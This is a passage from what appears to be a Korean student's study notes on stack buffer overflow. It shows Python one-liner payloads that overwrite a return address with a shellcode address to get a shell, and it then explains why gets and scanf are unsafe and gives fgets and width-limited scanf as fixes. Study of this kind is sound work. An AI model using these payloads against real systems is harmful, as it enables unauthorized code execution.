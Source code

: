 그럼 다음과 같은 쉘 주솟값을 얻을 수 있다 ! 

> $ SHELLCODE addr is 0xbffffc5b




=> 이제 쉘의 주솟값을 알았으니, 문제에서 주어진 스택의 상황을 계산&게싱하여 ret주소에 쉘 주솟값을 덮어씌워버리면 현재 함수가 호출 종료될 때 쉘을 얻어낼 수 있다 !!  




### 04 Let's BOF! 

=> gdb로 메모리(스택) 주소값을 읽어내거나/ 더미값을 게싱해서 메모리 상태를 파악한다. 

​	//gdb 사용법은 아직 익히는 중입니다. 어셈 읽는거랑 주솟값 보는법 넘모 어려워요 ㅜㅜ 

=> 페이로드 작성 ; bof를 일으켜 쉘 주소를 RET에 삽입한다.  (전 파이썬 사용) 

예) 버퍼 256byte + 더미 4 + SFP 4 + RET 4 이고, 쉘 주솟값이  0xbffffc5b일 때 

①  인자값 넘기는 방식

> $ ./<공격할 파일명> $(python -c 'print "A"*264 + "\x5b\xfc\xff\xbf"')

② 입력값 받는 방식

> $ (python -c 'print "A"*264 + "\x5b\xfc\xff\xbf"'; cat) | ./<공격할 파일명> 
>
> $ 값 입력하기

=> 공격 성공 !! /실패한 경우 값을 바꿔가며 재시도 !!!




### 05 BOF에 취약한 함수와 올바른 사용법

**1) gets** ; gets(char *s) 는 엔터가 입력될 때까지 입력된 문자열을 버퍼에 저장한다. 

문자열을 입력받지만 문자열을 담을 공간의 길이와 입력받은 문자열의 길이를 확인하지 않기 때문에 bof 발생

 => 추천하는 방법은 fgets 함수를 사용하는 것이다. 

> fgets(char *s, int n, FILE *stream) 




**2) scanf** scanf(const char *format, …) 는 데이터를 입력받는 함수로 엔터가 입력될 때까지 입력을 받는다. 공백 문자 없이 문자열을 입력하게 되면 gets 함수처럼 입력받은 문자열의 길이를 체크하지 않기 때문에 스택의 값이 변조될 수가 있다. 그래서 사용할 때 변환 명세에 **(버퍼 크기 – 1)**만큼의 옵션을 주면 된다.  

예)

> \#include <stdio.h>
>
> int main()
>
> {
>
> ​           char buf[10];
>
> ​           scanf(“%**9**s”, buf);
>
> ​           printf(“buf: %s\n”, buf);
>
> }
